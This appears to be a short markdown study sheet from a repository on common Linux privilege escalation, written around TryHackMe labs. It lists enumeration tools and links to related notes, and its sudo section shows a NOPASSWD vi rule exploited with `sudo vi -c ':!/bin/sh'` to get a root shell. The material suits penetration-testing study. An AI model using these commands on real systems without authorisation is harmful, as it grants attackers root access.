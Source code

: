 # Common Linux Privilege Escalation List

A list of common Linux Privilege Escalation.

## Table of Contents

- [Enumeration](#enumeration)
- [SUID / GUID files](#suid--guid-files)
- [sudo](#sudo)
- [Exploiting writeable /etc/passwd](#exploiting-writeable-etcpasswd)
- [Exploiting Crontab](#exploiting-crontab)
- [Resources](#resources)

## Enumeration

Tools can help to find out misconfiguration vulnerabilities and ways for privilege escalation.

Tools to enumerate:

* [linpease](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) - Linux Privilege Escalation Awesome Script
* [pspy](https://github.com/DominicBreuker/pspy) - unprivileged Linux process snooping
* [LinEnum](https://github.com/rebootuser/LinEnum) - Scripted Local Linux Enumeration & Privilege Escalation Checks
* [LSE](https://github.com/diego-treitos/linux-smart-enumeration) - Linux enumeration tools for pentesting and CTFs

## SUID / GUID files

- See the dedicated document [exploiting-suid-guid-files](exploiting-suid-guid-files).

## sudo

By running `sudo -l` we get to know what this user is allowed to do. In this example, `user8` is allowed to run `vi` with root privileges. Assuming this has been set this way so that `user8` could for example edit system config files. And the bad thing in this example, is that it also does not require `user8` to enter a passwords.

```commandline
user8@polobox:~$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
```

From this `user8` can run `vi`, and then spawn a shell. There are multiples methods possible.

Directly by running the `sudo vi` command and spawning a shell:

```commandline
user8@polobox:~$ sudo vi -c ':!/bin/sh'
# whoami
root
```

From within vi by running `sudo vi`.

And then in the vi(m) editor, type in: `:!sh`

See also the `gtfobins` website, dedicated `vi` page for more details: <https://gtfobins.github.io/gtfobins/vi/>

## Exploiting writeable /etc/passwd

- See the dedicated document [Exploiting Writeable /etc/passwd](exploiting-writeable-etc-passwd).

## Exploiting Crontab

This consist in looking what crontab run in the hope to find some cron job / script that is run with `root` user. A script which we are allowed to edit, and thus do vertical privilege escalating. 

## Resources

- <https://tryhackme.com/room/commonlinuxprivesc>
- <https://tryhackme.com/room/linuxprivesc>

**Other**:

- netbiosX (check the other documents, this one is almost empty) Note, website is listed as malware - <https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md>
- On Payload All things - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>
- <https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html>
- <https://payatu.com/guide-linux-privilege-escalation>
